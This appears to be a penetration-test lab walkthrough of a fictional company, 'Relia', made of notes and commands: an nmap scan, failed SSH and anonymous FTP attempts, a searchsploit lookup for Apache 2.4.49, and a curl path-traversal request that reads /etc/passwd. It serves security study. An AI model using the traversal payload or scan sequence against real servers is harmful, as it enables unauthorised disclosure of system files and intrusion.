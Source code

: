 # Questions
We are tasked with a penetration test of Relia, an industrial company building driving systems for the timber industry. The target got attacked a few weeks ago and wants now to get an assessment of their IT security. Their goal is to determine if an attacker can breach the perimeter and get access to the domain controller in the internal network.

# Scan the DMZ network
sudo nmap -sC -sV -T4 192.168.243.245-250 192.168.243.189,191
[port-scanning.md]

# Found some interesting port from .245 where it have 2222 running and 21
ssh root@192.168.243.245 -p 2222  
root@192.168.243.245: Permission denied (publickey).
# It required public key, lets try to access FTP port with anonymous user
ftp -p 203.0.113.0
# When prompted for a username, you can enter either “ftp” or “anonymous”. Both are same

# Unfortunately anonymous access FTP is not valid
# Lets focus on the web server, based on the port scanning results, we can see the Apache HTTP server is using 2.4.49
searchsploit apache 2.4.49
searchsploit -m 50383.sh  

# Run the exploitation
code targets.txt
bash 50383.sh
# Seem like the script unable to work
# We can try to get the script command and follow to below

curl -v --path-as-is http://192.168.243.245/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
# Here we get some users
[user.txt]

